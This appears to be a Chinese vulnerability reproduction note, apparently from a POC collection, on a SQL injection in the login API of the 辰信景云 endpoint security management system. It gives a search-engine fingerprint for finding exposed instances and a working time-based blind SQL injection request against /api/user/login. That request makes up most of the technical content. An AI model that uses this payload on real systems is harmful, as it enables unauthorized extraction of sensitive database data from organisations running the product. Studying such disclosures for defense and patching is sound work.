# 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

# 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

## 漏洞描述

辰信领创 辰信景云终端安全管理系统 login存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

辰信领创 辰信景云终端安全管理系统

## 网络测绘

```
"辰信景云终端安全管理系统"
```

## 漏洞复现

登录页面

![image-20230828164335170](images/image-20230828164335170.png)

验证POC

```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

![image-20230828164347102](images/image-20230828164347102.png)

